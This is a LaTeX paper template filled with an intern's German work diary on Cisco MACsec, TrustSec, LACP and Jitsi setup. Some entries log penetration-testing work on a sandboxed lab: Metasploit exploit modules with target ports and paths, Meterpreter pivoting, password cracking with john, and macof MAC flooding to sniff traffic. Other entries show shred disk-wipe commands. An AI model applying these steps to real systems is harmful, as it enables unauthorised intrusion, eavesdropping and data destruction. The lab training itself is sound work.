% This template has been tested with LLNCS DOCUMENT CLASS -- version 2.20 (10-Mar-2018)

% !TeX spellcheck = en-US
% !TeX encoding = utf8
% !TeX program = pdflatex
% !BIB program = bibtex
% -*- coding:utf-8 mod:LaTeX -*-

% "a4paper" enables:
%  - easy print out on DIN A4 paper size
%
% One can configure a4 vs. letter in the LaTeX installation. So it is configuration dependend, what the paper size will be.
% This option  present, because the current word template offered by Springer is DIN A4.
% We accept that DIN A4 cause WTFs at persons not used to A4 in USA.

% "runningheads" enables:
%  - page number on page 2 onwards
%  - title/authors on even/odd pages
% This is good for other readers to enable proper archiving among other papers and pointing to
% content. Even if the title page states the title, when printed and stored in a folder, when
% blindly opening the folder, one could hit not the title page, but an arbitrary page. Therefore,
% it is good to have title printed on the pages, too.
%
% It is enabled by default as the springer template as of 2018/03/10 uses this as default

% German documents: pass ngerman as class option
% \documentclass[ngerman,runningheads,a4paper]{llncs}[2018/03/10]
% English documents: pass english as class option
\documentclass[english,runningheads,a4paper]{llncs}[2018/03/10]

%% If you need packages for other papers,
%% START COPYING HERE

% Set English as language and allow to write hyphenated"=words
%
% In case you write German, switch the parameters, so that the command becomes
\usepackage[english,main=ngerman]{babel}
%
% Even though `american`, `english` and `USenglish` are synonyms for babel package (according to https://tex.stackexchange.com/questions/12775/babel-english-american-usenglish), the llncs document class is prepared to avoid the overriding of certain names (such as "Abstract." -> "Abstract" or "Fig." -> "Figure") when using `english`, but not when using the other 2.
% english has to go last to set it as default language
%\usepackage[ngerman,main=english]{babel}
%
% Hint by http://tex.stackexchange.com/a/321066/9075 -> enable "= as dashes
\addto\extrasenglish{\languageshorthands{ngerman}\useshorthands{"}}
%
% Fix by https://tex.stackexchange.com/a/441701/9075
\usepackage{regexpatch}
\makeatletter
\edef\switcht@albion{%
  \relax\unexpanded\expandafter{\switcht@albion}%
}
\xpatchcmd*{\switcht@albion}{ \def}{\def}{}{}
\xpatchcmd{\switcht@albion}{\relax}{}{}{}
\edef\switcht@deutsch{%
  \relax\unexpanded\expandafter{\switcht@deutsch}%
}
\xpatchcmd*{\switcht@deutsch}{ \def}{\def}{}{}
\xpatchcmd{\switcht@deutsch}{\relax}{}{}{}
\edef\switcht@francais{%
  \relax\unexpanded\expandafter{\switcht@francais}%
}
\xpatchcmd*{\switcht@francais}{ \def}{\def}{}{}
\xpatchcmd{\switcht@francais}{\relax}{}{}{}
\makeatother

\usepackage{ifluatex}
\ifluatex
  \usepackage{fontspec}
  \usepackage[english]{selnolig}
\fi

\iftrue % use default-font
  \ifluatex
    % use the better (sharper, ...) Latin Modern variant of Computer Modern
    \setmainfont{Latin Modern Roman}
    \setsansfont{Latin Modern Sans}
    \setmonofont{Latin Modern Mono} % "variable=false"
    %\setmonofont{Latin Modern Mono Prop} % "variable=true"
  \else
    % better font, similar to the default springer font
    % cfr-lm is preferred over lmodern. Reasoning at http://tex.stackexchange.com/a/247543/9075
    \usepackage[%
      rm={oldstyle=false,proportional=true},%
      sf={oldstyle=false,proportional=true},%
      tt={oldstyle=false,proportional=true,variable=false},%
      qt=false%
    ]{cfr-lm}
  \fi
\else
  % In case more space is needed, it is accepted to use Times New Roman
  \ifluatex
    \setmainfont{TeX Gyre Termes}
    \setsansfont[Scale=.9]{TeX Gyre Heros}
    % newtxtt looks good with times, but no equivalent for lualatex found,
    % therefore tried to replace with inconsolata.
    % However, inconsolata does not look good in the context of LNCS ...
    %\setmonofont[StylisticSet={1,3},Scale=.9]{inconsolata}
    % ... thus, we use the good old Latin Modern Mono font for source code.
    \setmonofont{Latin Modern Mono} % "variable=false"
    %\setmonofont{Latin Modern Mono Prop} % "variable=true"
  \else
    % overwrite cmodern with the Times variant
    \usepackage{newtxtext}
    \usepackage{newtxmath}
    \usepackage[zerostyle=b,scaled=.9]{newtxtt}
  \fi
\fi

\ifluatex
\else
  % fontenc and inputenc are not required when using lualatex
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc} %support umlauts in the input
\fi

\usepackage{graphicx}

% backticks (`) are rendered as such in verbatim environment. See https://tex.stackexchange.com/a/341057/9075 for details.
\usepackage{upquote}

% Nicer tables (\toprule, \midrule, \bottomrule - see example)
\usepackage{booktabs}

%extended enumerate, such as \begin{compactenum}
\usepackage{paralist}

%put figures inside a text
%\usepackage{picins}
%use
%\piccaptioninside
%\piccaption{...}
%\parpic[r]{\includegraphics ...}
%Text...

% For easy quotations: \enquote{text}
% This package is very smart when nesting is applied, otherwise textcmds (see below) provides a shorter command
\usepackage{csquotes}

% For even easier quotations: \qq{text}
\usepackage{textcmds}

%enable margin kerning
\RequirePackage[%
  babel,%
  final,%
  expansion=alltext,%
  protrusion=alltext-nott]{microtype}%
% \texttt{test -- test} keeps the "--" as "--" (and does not convert it to an en dash)
\DisableLigatures{encoding = T1, family = tt* }

%tweak \url{...}
\usepackage{url}
%\urlstyle{same}
%improve wrapping of URLs - hint by http://tex.stackexchange.com/a/10419/9075
\makeatletter
\g@addto@macro{\UrlBreaks}{\UrlOrds}
\makeatother
%nicer // - solution by http://tex.stackexchange.com/a/98470/9075
%DO NOT ACTIVATE -> prevents line breaks
%\makeatletter
%\def\Url@twoslashes{\mathchar`\/\@ifnextchar/{\kern-.2em}{}}
%\g@addto@macro\UrlSpecials{\do\/{\Url@twoslashes}}
%\makeatother

% Diagonal lines in a table - http://tex.stackexchange.com/questions/17745/diagonal-lines-in-table-cell
% Slashbox is not available in texlive (due to licensing) and also gives bad results. This, we use diagbox
%\usepackage{diagbox}

% Required for package pdfcomment later
\usepackage{xcolor}

% For listings
\usepackage{listings}
\lstset{%
  basicstyle=\ttfamily,%
  columns=fixed,%
  basewidth=.5em,%
  xleftmargin=0.5cm,%
  captionpos=b}%
\renewcommand{\lstlistingname}{List.}
% Fix counter as described at https://tex.stackexchange.com/a/28334/9075
\usepackage{chngcntr}
\AtBeginDocument{\counterwithout{lstlisting}{section}}

% Enable nice comments
\usepackage{pdfcomment}
%
\newcommand{\commentontext}[2]{\colorbox{yellow!60}{#1}\pdfcomment[color={0.234 0.867 0.211},hoffset=-6pt,voffset=10pt,opacity=0.5]{#2}}
\newcommand{\commentatside}[1]{\pdfcomment[color={0.045 0.278 0.643},icon=Note]{#1}}
%
% Compatibality with packages todo, easy-todo, todonotes
\newcommand{\todo}[1]{\commentatside{#1}}
% Compatiblity with package fixmetodonotes
\newcommand{\TODO}[1]{\commentatside{#1}}

% Bibliopgraphy enhancements
%  - enable \cite[prenote][]{ref}
%  - enable \cite{ref1,ref2}
% Alternative: \usepackage{cite}, which enables \cite{ref1, ref2} only (otherwise: Error message: "White space in argument")

% Doc: http://texdoc.net/natbib
\usepackage[%
  square,        % for square brackets
  comma,         % use commas as separators
  numbers,       % for numerical citations;
%  sort,          % orders multiple citations into the sequence in which they appear in the list of references;
  sort&compress, % as sort but in addition multiple numerical citations
                 % are compressed if possible (as 3-6, 15);
]{natbib}
% In the bibliography, references have to be formatted as 1., 2., ... not [1], [2], ...
\renewcommand{\bibnumfmt}[1]{#1.}

\ifluatex
  % does not work when using luatex
  % see: https://tex.stackexchange.com/q/419288/9075
\else
  % Prepare more space-saving rendering of the bibliography
  % Source: https://tex.stackexchange.com/a/280936/9075
  \SetExpansion
  [ context = sloppy,
    stretch = 30,
    shrink = 60,
    step = 5 ]
  { encoding = {OT1,T1,TS1} }
  { }
\fi

% Put footnotes below floats
% Source: https://tex.stackexchange.com/a/32993/9075
\usepackage{stfloats}
\fnbelowfloat

% Enable that parameters of \cref{}, \ref{}, \cite{}, ... are linked so that a reader can click on the number an jump to the target in the document
\usepackage{hyperref}
% Enable hyperref without colors and without bookmarks
\hypersetup{hidelinks,
  colorlinks=true,
  allcolors=black,
  pdfstartview=Fit,
  breaklinks=true}
%
% Enable correct jumping to figures when referencing
\usepackage[all]{hypcap}

\usepackage[group-four-digits,per-mode=fraction]{siunitx}

%enable \cref{...} and \Cref{...} instead of \ref: Type of reference included in the link
\usepackage[capitalise,nameinlink]{cleveref}
%Nice formats for \cref
\usepackage{iflang}
\IfLanguageName{ngerman}{
  \crefname{table}{Tab.}{Tab.}
  \Crefname{table}{Tabelle}{Tabellen}
  \crefname{figure}{\figurename}{\figurename}
  \Crefname{figure}{Abbildungen}{Abbildungen}
  \crefname{equation}{Gleichung}{Gleichungen}
  \Crefname{equation}{Gleichung}{Gleichungen}
  \crefname{listing}{\lstlistingname}{\lstlistingname}
  \Crefname{listing}{Listing}{Listings}
  \crefname{section}{Abschnitt}{Abschnitte}
  \Crefname{section}{Abschnitt}{Abschnitte}
  \crefname{paragraph}{Abschnitt}{Abschnitte}
  \Crefname{paragraph}{Abschnitt}{Abschnitte}
  \crefname{subparagraph}{Abschnitt}{Abschnitte}
  \Crefname{subparagraph}{Abschnitt}{Abschnitte}
}{
  \crefname{section}{Sect.}{Sect.}
  \Crefname{section}{Section}{Sections}
  \crefname{listing}{\lstlistingname}{\lstlistingname}
  \Crefname{listing}{Listing}{Listings}
}


%Intermediate solution for hyperlinked refs. See https://tex.stackexchange.com/q/132420/9075 for more information.
\newcommand{\Vlabel}[1]{\label[line]{#1}\hypertarget{#1}{}}
\newcommand{\lref}[1]{\hyperlink{#1}{\FancyVerbLineautorefname~\ref*{#1}}}

\usepackage{xspace}
%\newcommand{\eg}{e.\,g.\xspace}
%\newcommand{\ie}{i.\,e.\xspace}
\newcommand{\eg}{e.\,g.,\ }
\newcommand{\ie}{i.\,e.,\ }

%introduce \powerset - hint by http://matheplanet.com/matheplanet/nuke/html/viewtopic.php?topic=136492&post_id=997377
\DeclareFontFamily{U}{MnSymbolC}{}
\DeclareSymbolFont{MnSyC}{U}{MnSymbolC}{m}{n}
\DeclareFontShape{U}{MnSymbolC}{m}{n}{
  <-6>    MnSymbolC5
  <6-7>   MnSymbolC6
  <7-8>   MnSymbolC7
  <8-9>   MnSymbolC8
  <9-10>  MnSymbolC9
  <10-12> MnSymbolC10
  <12->   MnSymbolC12%
}{}
\DeclareMathSymbol{\powerset}{\mathord}{MnSyC}{180}

\ifluatex
\else
  % Enable copy and paste - also of numbers
  % This has to be done instead of \usepackage{cmap}, because it does not work together with cfr-lm.
  % See: https://tex.stackexchange.com/a/430599/9075
  \input glyphtounicode
  \pdfgentounicode=1
\fi

% correct bad hyphenation here
\hyphenation{op-tical net-works semi-conduc-tor}

%% END COPYING HERE


% Add copyright
% Do that for the final version or if you send it to colleagues
\iffalse
  %state: intended|submitted|llncs
  %you can add "crop" if the paper should be cropped to the format Springer is publishing
  \usepackage[intended]{llncsconf}

  \conference{name of the conference}

  %in case of "llncs" (final version!)
  %example: llncs{Anonymous et al. (eds). \emph{Proceedings of the International Conference on \LaTeX-Hacks}, LNCS~42. Some Publisher, 2016.}{0042}
  \llncs{book editors and title}{0042} %% 0042 is the start page
\fi

% For demonstration purposes only
\usepackage[math]{blindtext}
\usepackage{mwe}


\begin{document}

\title{Paper Title}
%If Title is too long, use \titlerunning
%\titlerunning{Short Title}

%Single insitute
\author{Firstname Lastname \and Firstname Lastname}
%If there are too many authors, use \authorrunning
%\authorrunning{First Author et al.}
\institute{Institute}

%% Multiple insitutes - ALTERNATIVE to the above
% \author{%
%     Firstname Lastname\inst{1} \and
%     Firstname Lastname\inst{2}
% }
%
%If there are too many authors, use \authorrunning
%  \authorrunning{First Author et al.}
%
%  \institute{
%      Insitute 1\\
%      \email{...}\and
%      Insitute 2\\
%      \email{...}
%}

\maketitle

\begin{abstract}
  \lipsum[1]
\end{abstract}

\begin{keywords}
  keyword1, keyword2
\end{keywords}

\section{März}
\subsection{1. Woche}
\subsubsection{2.03}
- pc aufsetzen
- dual boot win ubuntu
- meeting db technik
- db monitoring checks

\subsubsection{3.03}
- Cisco ASA 5506-X Einstellungen rumspielen über Kommandozeile und dann über java Oberfläche
- Hardware am pc anschließen
- paul brandt stichwörter IT-Sicherheit
- Richard und Stefan über Schulter gucken bei Firewall Einstellungne ASA mit Kundenanforderungen

\subsubsection{4.03}
-Information Security Managment System ISO Zertifizierung mit Mathias, Kernbetrieb, vom Kunden gewünscht, Dokumentation, Ticketsystem
-- Angriffszenarien 
---DDOS Attacke über ASA erkannt, Eintragung in IP Tables über Linux Firewall bzw. IP bannen
--- Kontaktformular versenden von Spam Mails führt zu Ban durch Provider(web.de gmx strato)
--- Sicherheitsschwachstelle in Webserver CMS, welches vom Kundne verwaltet wird, führt auch zu Spammailversand
- Ticket von Vorfall, Erkennung und dann IT-Forensik bei Bitcoin Trojaner
- Webserver in virtual box zum Rumspielen

\subsubsection{5.03}
- Webserver Pentesting, Cross Site scripting xss
- Richard über Schulter gucken bei Einrichtung von ASA und Firewall Regeln

\subsubsection{6.03}
- Sicherer Umgang mit Datenentfernung
- rumliegende sd Karte vorm Firmengebäude 
- isoliertes Gerät, alter, rumliegender laptop, kein wlan zugangsdaten, Festplatte ausgebaut, Knoppix live usb starten
- mit gparted partition von sd /dev/mmcblk0 gelöscht
- shred -vzn 0 /dev/mmcblk0 mit Nullen überschreiben
- usb stick mit knoppix plattmachen sudo umount -l /dev/sda1
- mit fdisk -l usb drive erkennen
- shred -vzn 0 /dev/sda
- im Rechenzentrum switch anschließen und port einrichten
- metasploit aufsetzen über vm
- sitzung gespräch security vorfall sd karte, corona topdown unternehmensführung, selbstbestimmte, eigenverantwortliche mitarbeiter, Firmenfeier
\subsection{2. Woche}
\subsubsection{9.03}
- Dienstbesprechung
- metasploitable3 internalnetworking in virtualbox konfigurieren, kein Nat um nicht Firmennetzwerk zu gefährden
- kali linux im internal network

\subsubsection{10.03}
- wordpress metasploit mit kali linux durchgeführt
- port 8585
- TARGETURI	 /wordpress/
- FORM PATH	/index.php/king-of-hearts/ 
- exploit/multi/http/wpninjaformsunauthenticatedfileupload

-- Apache Struts port 8282 gets working meterpreter shell $exploit/multi/http/struts_dmi_rest_exec$

--- Glassfish 4848, 8080, ssl true, target 1 java universal gets working meterpreter shell
$multi/http/glassfish_deployer$

\subsubsection{11.03}
- difference between remote and local perspective port scanning
- access network through compromised machines
- port forwarding with Meterpreter
--forwarded connections from a local port 3306 kali linux, over Meterpreter to a local port 3306 on win2k8
--allowed access port 3306 on Metasploitable3 from a remote
\url{https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/}
- mysqld uses port 3306 can be accessed as local
--maria db sees wordpress database, get admin password through john and change wordpress website set king of diamonds from private to public

\subsubsection{12.03}
- Richard und Stefan über die Schulter geguckt beim VPN einrichten mittels ASA Java Oberfäche
- Wordpress Blog eingerichtet, Einrichtung von apache, mysql, php

\subsubsection{13.03}
- zweiwöchige Besprechung der Praktikumsaufgaben, MACSec für planet area aufbauen
- metasploit, mysql Datenbankenaufbau nachvollziehen, zugriff über portforwarding, verschiedene Dateiformate wiederherstellen
- wordpress zugriff auf wp-content/uploads

\subsection{3. Woche}
\subsubsection{16.03}
- Macsec Verbindung zwischen zwei Switches 
 $https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst9300/software/release/16-6/configuration_guide/sec/b_166_sec_9300_cg/macsec_encryption.html$
-mka Policy
\begin{lstlisting}[language=bash]
Switch(config)# mka policy mka_policy 
Switch(config-mka-policy)# macsec-cipher-suite gcm-aes-256 
Switch(config-mka-policy)# confidentiality-offset 30 
Switch(config-mka-policy)# end 
- keys
Switch(config)# Key chain keychain1 macsec 
Switch(config-key-chain)# key 1000 
Switch(config-keychain-key)# cryptographic-algorithm gcm-aes-256
Switch(config-keychain-key)# key-string 12345678901234567890123456789012 
Switch(config-keychain-key)# lifetime local 12:12:00 July 28 2016 12:19:00 July 28 2016 
Switch(config-keychain-key)# end 
-interface 
Switch(config)# interface GigabitEthernet 0/0/0 
Switch(config-if)# mka policy mka_policy 
Switch(config-if)# mka pre-shared-key key-chain keychain1
Switch(config-if)# end 

\end{lstlisting}
-Trustsec
\begin{lstlisting}[language=bash]
Switch# configure terminal
Switch(config)# interface tengigabitethernet 1/1/2
Switch(config-if)# cts manual
Switch(config-if-cts-manual)# sap pmk 1234abcdef mode-list gcm-encrypt null no-encap
Switch(config-if-cts-manual)# no propagate sgt
Switch(config-if-cts-manual)# exit
Switch(config-if)# end
\end{lstlisting}
-1gbit mit iperf 777mbits, 10gi kann mit laptops nicht getestet werden
- laptops ips im netzwerk zuweisen 192.168.111.1, 192.168.111.2 /24
\begin{lstlisting}[language=bash]
iperf -c 192.168.111.1
iperf -s 
\end{lstlisting}

\subsubsection{17.03}
- versucht trustsec authentication mit seed device
\begin{lstlisting}[language=bash]
 Device(config)# aaa new-model
Device(config)# aaa authentication dot1x default group radius
Device(config)# aaa authorization network MLIST group radius
Device(config)# cts authorization list MLIST
Device(config)# aaa accounting dot1x default start-stop group radius
Device(config)# radius-server host 10.20.3.1 auth-port 1812 acct-port 1813 pac key AbCe1234
Device(config)# radius-server vsa send authentication
Device(config)# dot1x system-auth-control
Device(config)# exit 
\end{lstlisting}
-für non seed device auf dem zweiten switch
\begin{lstlisting}[language=bash]
 Device(config)# aaa new-model
Device(config)# aaa authentication dot1x default group radius
Device(config)# aaa authorization network MLIST group radius
Device(config)# aaa accounting dot1x default start-stop group radius
Device(config)# radius-server vsa send authentication
Device(config)# dot1x system-auth-control
Device(config)# exit 
\end{lstlisting}
- wenn $cts manual$ das interface manuell konfiguriert dann gibt es keine autehtication, $cts dot1x (config-if-cts-dot1x) $gabs nicht, Veraltete Dokumentationsanleitung da es cli nicht mehr gibt \url{https://community.cisco.com/t5/switching/configuration-radius-c9300-48p/td-p/3730127}

-You can manually configure Cisco TrustSec on an interface. You must manually configure the interfaces on both ends of the connection. No authentication occurs; policies can be statically configured or dynamically downloaded from an authentication server by specifying the server’s device identity. \url{https://www.cisco.com/c/en/us/td/docs/switches/lan/trustsec/configuration/guide/trustsec/ident-conn_config.html#65496}

-anderer laptop 935mbtis bei iperf

- Tätigkeiten im Unternehmen/beim Kunden, Ansprechpartner fallen wegen Corona möglicherweise aus, andere Aufgaben vorziehen

-vpn zugang eingerichtet
Configdatei
- drei Management Zeilen löschen
- group nogroup ändern
Installationspackages
- sudo apt install openvpn-systemd-resolved/bionic
- sudo apt install network-manager-openvpn-gnome
- sudo apt install network-manager-openvpn
- selber apt install openvpn
dann abmelden/anmelden

\subsubsection{18.03}
-\url{https://www.cisco.com/c/dam/en/us/solutions/collateral/enterprise/design-zone-security/how_to_intro_macsec_ndac_guide.pdf}
-authentication Problem, für den seed device(swtest1 switch) müsste ein Trustsec Server angegeben werden
- Cisco Identity Services Engine (ISE) muss Cisco Software auf einem Policy Service Node installieren
- ist so ein Network Device Admission Control (NDAC) für andere geräte schon eingerichtet?
-\url{https://www.cisco.com/c/en/us/support/switches/catalyst-9300-24x-a-switch/model.html} --> configurations guides --> trustsec switch configuration guide

\subsubsection{19.03}
- Quality of Service (QoS)z.B Voice und Data
- "The 10-Gigabit interfaces do not support auto-QoS for VoIP with Cisco IP Phones or with devices running the Cisco SoftPhone feature." veraltet' 12-2-55 vs 16-12 im LInk
\url{https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3750/software/release/12-2_55_se/configuration/guide/scg3750/swqos.html#91698}
-auto qos geht anscheinend doch
\url{https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst9300/software/release/16-12/configuration_guide/qos/b_1612_qos_9300_cg/configuring_auto_qos.html#reference_kcp_nz5_41b}
\begin{lstlisting}[language=bash]
-Device(config)# interface HundredGigE1/0/2
Device(config-if)# auto qos trust cos
Device(config-if)# end
Device# show policy-map interface HundredGigE1/0/2
\end{lstlisting}
- mit auto qos global compact werden nur die configuration  messages versteckt (hidden)
-confidentiality offset ermöglicht qos?
\subsubsection{20.03}
-lacp link Bündelung, proprietäre Cisco PAgP implementierung
\url{https://www.omnisecu.com/cisco-certified-network-associate-ccna/how-to-configure-etherchannel-port-aggregation-protocol-pagp-in-cisco-switch.php}
\begin{lstlisting}[language=bash]
omnisecu.com.SW1(config)#interface range gigabitEthernet 0/1 - 2
omnisecu.com.SW1(config-if-range)#channel-group 1 mode desirable
omnisecu.com.SW1(config-if-range)#channel-protocol pagp 
omnisecu.com.SW1(config-if-range)#exit
omnisecu.com.SW1(config)#exit
\end{lstlisting}
-tcpdump, wireshark um auf monitorport pakete abzuhören
-zweite netzwerkkarte an Laptop und switch angeschlossen
-scapy versucht um ein Paket loszuschicken, hat nicht geklappt,a ber auch nicht erforderlich weil Wireshark bei MacSec das als Protokoll anzeigen würde und nicht tcp
-port syn scanning
- wireshark tutorial angeguckt
- monitor port mit monitor session 1 source te1/1/8
.monitor session 1 destinatin te1/0/24 encasulation replicate, replicate bringt wohl nichts


\subsection{4. Woche}
\subsubsection{23.03}
-problem bei cisco trust sec bei switch 2 kommt nach " show macsec interface te1/1/8" immer$ "*Mar 23 09:30:01.940: MACSec-IPC: getting macsec sa_sc response",$ also lieber mka single host mode probieren
-no macsec network-link auf allen nodes, dann mka policy ändern, dann wieder macsec network link anmachen \url{https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3650/software/release/16-6/configuration_guide/sec/b_166_sec_3650_cg/macsec_encryption.html}
-fehlersuche mit stefan taute, usb netzwerkkarte kann nur 100mbit/s deswegen DUMP größe zwischen eno1 und usbnetzwerkkarte 1GB zu 15MB
- bei 100mbits switch beschränkung 118 und 124 MB
-monitorport am switch sieht eventuell bereits die entschlüsselten daten 

\subsubsection{24.03}
-linphone eingerichtet
- Ziel ist Hub zwischenzuschalten, um die Pakete abzuhören
- Nur Switch vorhanden, deshalb macspoofing mittels macof, um die mac adressen tabelle überlaufen zu lassen, sodass switch broadcasted und linux box mit usb netzwerkkabel mithören kann \url{https://brakertech.com/flood-network-with-random-mac-addresses-with-macof-tool/}
-  sudo macof -i eno1
führt dazu, dass ping nach 192.168.111.1 durch sudo tcpdump -i enx74da389fee2f -s 0 -w hubping.dump zugesendet bekommt
- ohne macsec funktioniert dies, allerdings lässt sich macsec auf diesem interface te1/0/12 nicht anstellen, sondern nur auf te1/1/8 ( - Interface is not MACsec capable.
)

\subsubsection{25.03}
- MACSec Pakete werden erfolgreich auf zwischengeschaltetem Switch auf Ports 12 mitgeschnitten und auf Port 3 des kleinen Switches per USB Netzwerkkarte an Linux Box übertragen
-funktioniert entweder mit CTS(Trustsec) oder MKA 
-cisco 9300 24ux a Seite --> Configuration Guides --> Platform COnfiguration -->Software Configuration Guide, Cisco IOS XE Gibraltar 16.12.x (Catalyst 9300 Switches) --> Security --> MACSec Encryptino ist die beste offizielle Dokumentation \url{https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst9300/software/release/16-12/configuration_guide/sec/b_1612_sec_9300_cg/macsec_encryption.html}
- beste Configexample mit LACP
\begin{lstlisting}[language=bash]
Device> enable
Device# configure terminal
Device(config)# key chain KC macsec
Device(config-key-chain)# key 1000
Device(config-key-chain)# cryptographic-algorithm aes-128-cmac
Device(config-key-chain)# key-string FC8F5B10557C192F03F60198413D7D45
Device(config-key-chain)# exit
Device(config)# mka policy POLICY
Device(config-mka-policy)# key-server priority 0
Device(config-mka-policy)# macsec-cipher-suite gcm-aes-128
Device(config-mka-policy)# confidentiality-offset 0
Device(config-mka-policy)# exit
Device(config)# interface gigabitethernet 1/0/1
Device(config-if)# channel-group 2 mode active
Device(config-if)# macsec network-link
Device(config-if)# mka policy POLICY
Device(config-if)# mka pre-shared-key key-chain KC
Device(config-if)# exit
Device(config)# interface gigabitethernet 1/0/2
Device(config-if)# channel-group 2 mode active
Device(config-if)# macsec network-link
Device(config-if)# mka policy POLICY
Device(config-if)# mka pre-shared-key key-chain KC
Device(config-if)# end
\end{lstlisting}

\subsubsection{26.03}
- PAgP auf Kupferkabeln eingerichtet, geht mit macsec
- Switch im TGZ keller eingebaut
- 2. Switch im 1. OG Haus 3 bei Logic Way hingestellt, Schrauben passten nicht, PatchKabel hatte auch noch kein Signal
-Prüfung Notstromaggregat
\subsubsection{27.03}
-dkb grund de umzug in testlab überlegt, Nutzen?
- Testsezenarien für LACP Stecker rausziehen, ausfallsicherung, doppelte Datengeschwindikeit
- Angebot für Kunden, Redundanz, Geschwindigkeit bei Verschlüsselung
- MdK kann sich ipSec, Vpn sparen und LAN mit Macsec nutzen
\subsection{5. Woche}
\subsubsection{30.03}
-LACP Bündelung testen, Ausfallsicherheit, doppelte Datenrate \url{https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst9300/software/release/16-12/configuration_guide/sec/b_1612_sec_9300_cg/macsec_encryption.html}
-show etherchannel summary
- MACSec an/ausschalten bei Abschnitt Configuring MKA MACsec using PSK no macsec network-link
\begin{lstlisting}[language=bash]
Device> enable
Device# configure terminal
Device(config)# key chain KC macsec
Device(config-key-chain)# key 1000
Device(config-key-chain)# cryptographic-algorithm aes-128-cmac
Device(config-key-chain)# key-string FC8F5B10557C192F03F60198413D7D45
Device(config-key-chain)# exit
Device(config)# mka policy POLICY
Device(config-mka-policy)# key-server priority 0
Device(config-mka-policy)# macsec-cipher-suite gcm-aes-128
Device(config-mka-policy)# confidentiality-offset 0
Device(config-mka-policy)# exit
Device(config)# interface gigabitethernet 1/0/1
Device(config-if)# channel-group 2 mode active
Device(config-if)# macsec network-link
Device(config-if)# mka policy POLICY
Device(config-if)# mka pre-shared-key key-chain KC
Device(config-if)# exit
Device(config)# interface gigabitethernet 1/0/2
Device(config-if)# channel-group 2 mode active
Device(config-if)# macsec network-link
Device(config-if)# mka policy POLICY
Device(config-if)# mka pre-shared-key key-chain KC
Device(config-if)# end

Layer 2 EtherChannel Configuration

Device 1

Device> enable
Device# configure terminal
Device(config)# interface port-channel 2
Device(config-if)# switchport
Device(config-if)# switchport mode trunk
Device(config-if)# no shutdown
Device(config-if)# end

Device 2

Device> enable
Device# configure terminal
Device(config)# interface port-channel 2
Device(config-if)# switchport
Device(config-if)# switchport mode trunk
Device(config-if)# no shutdown
Device(config-if)# end
\end{lstlisting}
- ausfallsicherheit funktioniert
- datengeschwindigkeit bleibt für singel tcp stream gleich und verdoppelt sich nicht
- müsste mit weiterem src mac getestet werden, da load balancing standardmäßig darauf setzt
-Jit.si Server in kvm Container aufsetzen 192.168.183.158
- dns-nameservers 195.98.223.1
-proxmox einstellungen mit lukas
-ssh root@192.168.183.158 ,pw abbrechen um file zu erzeugen
- nano $/root/.ssh/authorized_keys$

\subsubsection{31.03}
- clean install nach quickanleitung führt zu Verbindung nicht verfügbar, müssten nginx logs angucken warum, aber noch nicht getan
- deinstallation und neuinstallation konferenz aufmachen möglich, aber verbindung bricht ab sobald zweiter teilnehmer joint
- jitsi videobridge component secret erforderlich, weiß aber keinen wert dafür
- jitsi videobridge (jvb) /etc/jitsi/videobridge/config, (prosody) xmpp server /etc/prosody/conf.avail/192.168.183.158.cfg.lua, (jicofo) jitsi conference focus logs und configs angeguckt, aber schwierige fehlersuche
\url{https://github.com/jitsi/jitsi-meet/blob/master/doc/quick-install.md}
-- versuch mit apache2 default website anzeigen ging nicht, da  firefox hat immer auf ssl umgeleitet, weil das vorher bei jitsi so konfiguriert war und die deinstalltion von jitsi nicht restlos möglich war
-- Lösung durch privates fenster ohne cache/cookie die seite aufrufen
- vorher funktionierenden nginx server installieren, dann mit normalem quick install beginnen (nicht extra ohne jitsi-meet-turnserver), da nginx nur auf port 80 und nicht 443 konfiguriert ist, aber hat eventuell, doch ohne coturn installiert
\section{April}
\subsubsection{1.04}
-Jitsi Server Test vorbereiten, Gesprächscounter geht nicht? jicofo can focus im log nicht als component laden?
- Testkriterien Browser Firefox oder Chrome, OS Linux oder Windows, Cpu Auslastung, Anzahl Teilnehmer mit Bildschirmübertragung Webcam/micro
- h.264 seitdem geht firefox nicht mehr, sondern nur noch chrome
- Jitsi Desktop xmpp (jabber pidgin) und sip eingerichtet, aber kann nicht mit jitsi meet verbinden, daher nutzlos
- LACP Load Sharing testen src mac adresse standard
- usb netzwerkkarten anschließen geht nicht wegen routing
- iperf tests mit mehrern servern und clients um doppelte bandbreite zu nutzen

\subsubsection{2.04}
- Calc JitsiTestKonferenz Tabelle vorbereitet
- Nextcloud bei talk.planet-ic.de damit online geshared die Werte eingetragen werden können-
- zwei weitere Laptops an lokales Netz angschlossen, um Konferenz zu testen, da vorher immer ab drittem teilnehmer von mir selbst ein abbruch der Konferenz erfolgte, lag wahrscheinlich an p2p zu server umstellung
- Problem war Mitarbeiterfirewall der testlab die alles blockt
- herausgefunden durch jvb.log pair failed zu ip von meinem laptop oder den windows laptops
- vorher namp scan auf testlab server 192.168.183.158, um zu sehen, dass ich nicht freigeschaltet war
- jetzt gehen firefox und chrome
- überlegen optimierungen , das beim browser für webrtc die codecs angeboten werden vp8 vp9 h264 \url{chrome://webrtc-internals/}
-lacp mit vier laptops(zwei server zwei clients) geht mit iperf3, erreicht dopplete bandbreite
- drei clients auf einen server mit drei ports geht nur 100mbits
- zweite nic usb netzwerkkarte mit zwei client und einem server gibt auch nur 50+50 = 100mbits

\subsubsection{3.04}
- überlegt mit focus@auth.192.168.183.158 componenent not connected warn, bouncing error
- speakerstats und conferenzdurationtimer sind wegen fehlendem zertifikat nicht auf port 5281 ferigeschaltet, angeblich aber kein problem, nochmal log von prosody und jicofo angucken
-Jitsi Testkonferenz durchgeführt und performancewerte gesammelt
- chrome skype gastkonto konferenz
- multicast gibts in iperf3 nicht mehr

\subsection{6. Woche}
\subsubsection{06.04}
- Aufbau LACP Geschwindigkeitstest 2 * 100 MBit/s und Standardwert bei Loadbalancing, also src-mac adresse
- 1 Laptop ist iperf3 Server mit drei weiteren USB 3.0 Netzwerkkarten, deren IP statisch festgelegt werden
- vier weitere Laptops sind die iperf3 Clients mit passender IP für eines der vier Netze
- alle in verschiedenen Netzen 
- voher alle am gleichen Switch angeschlossen, um 1Gbit (~940Mbit) zu bestätigen
